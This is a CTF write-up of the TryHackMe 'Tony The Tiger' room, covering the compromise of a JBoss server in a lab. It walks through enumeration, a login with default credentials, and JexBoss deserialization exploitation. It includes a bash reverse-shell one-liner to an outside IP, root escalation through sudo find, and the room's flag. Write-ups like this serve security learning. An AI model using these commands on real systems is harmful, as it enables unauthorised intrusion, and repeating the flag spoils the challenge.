 ```yaml
---
title: "Tony The Tiger - THM"
author:
  name: 0xKirito
  link: https://github.com/0xKirito
date: 2021-12-21 19:54:21 +05:30
categories: [Writeups, TryHackMe]
tags: [THM, JBoss, Java, Deserialization]
render_with_liquid: false
---
```


## Enumeration

- `nmap -Pn -p- --min-rate 2000 -sV 10.10.62.36`

```
Not shown: 65518 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.7 ((Ubuntu))
1090/tcp open  java-rmi    Java RMI
1091/tcp open  java-rmi    Java RMI
1098/tcp open  java-rmi    Java RMI
1099/tcp open  java-object Java Object Serialization
3873/tcp open  java-object Java Object Serialization
4446/tcp open  java-object Java Object Serialization
4712/tcp open  msdtc       Microsoft Distributed Transaction Coordinator (error)
4713/tcp open  pulseaudio?
5445/tcp open  smbdirect?
5455/tcp open  apc-5455?
5500/tcp open  hotline?
5501/tcp open  tcpwrapped
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8080/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
8083/tcp open  http        JBoss service httpd
```

### GoBuster

```
gobuster dir -u http://10.10.62.36/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 60 -x php,java,txt -k

=======================================================================

/images      (Status: 301) [Size: 310] [==> http://10.10.62.36/images/]
/page        (Status: 301) [Size: 308] [==> http://10.10.62.36/page/]
/categories  (Status: 301) [Size: 314] [==> http://10.10.62.36/categories/]
/posts       (Status: 301) [Size: 309] [==> http://10.10.62.36/posts/]
/css         (Status: 301) [Size: 307] [==> http://10.10.62.36/css/]
/tags        (Status: 301) [Size: 308] [==> http://10.10.62.36/tags/]
/js          (Status: 301) [Size: 306] [==> http://10.10.62.36/js/]
/fonts       (Status: 301) [Size: 309] [==> http://10.10.62.36/fonts/]
```

---

## Exploitation

- http://10.10.62.36:8080/admin-console/ 
- `admin:admin` worked and logged me in but I couldn't find a way to upload anything so I went looking for exploits.
- There is an option to upload files like WAR, EAR, RAR, JAR in the Applications section in admin console but it didn't work and I could not get a reverse shell.
- `searchsploit JBoss`
- Google: JBoss AS 6 exploit
- [JexBoss: Jboss (and Java Deserialization Vulnerabilities) verify and Exploitation Tool](https://github.com/joaomatosf/jexboss)
- `git clone https://github.com/joaomatosf/jexboss`
- Create `venv` and `pip install -r requires.txt`
- `python jexboss.py -J admin:admin -u http://10.10.62.36:8080 -r 10.10.62.36:8080 -t`
- And we get a shell as user `cmnatic`.
- To get a proper netcat shell, I tried the following command and then upgraded the shell to get a stable shell.
- `nc -lvnp 443` 
- `shell> bash -i >& /dev/tcp/10.17.2.57/443 0>&1` 

---

## Privilege Escalation

- `/home/jboss` has a file `note` with `jboss` user's password in it.
- `jboss:likeaboss`
- `su jboss => likeaboss`
- `sudo -l => /usr/bin/find`
- GTFOBins: `sudo find . -exec /bin/bash \; -quit`
- `whoami` <span class="fat-arrow">=></span> `root`

- JBoss Configuration Files Location

```
https://docs.jboss.org/jbossas/guides/installguide/r1/en/html/config-files.html
```

```
cmnatic@thm-java-deserial:~/jboss/server/default$ cat conf/props/jmx-console-users.properties
# A sample users.properties file for use with the UsersRolesLoginModule
admin=admin
cmnatic@thm-java-deserial:~/jboss/server/default$ cat conf/props/jmx-console-roles.properties
# A sample roles.properties file for use with the UsersRolesLoginModule
admin=JBossAdmin,HttpInvoker
```

- `cat /root/root.txt`

```
QkM3N0FDMDcyRUUzMEUzNzYwODA2ODY0RTIzNEM3Q0Y==
```

- Go to CyberChef and Base64 Decode with URL Safe option.
- `BC77AC072EE30E3760806864E234C7CF`
- `zxcvbnm123456789`

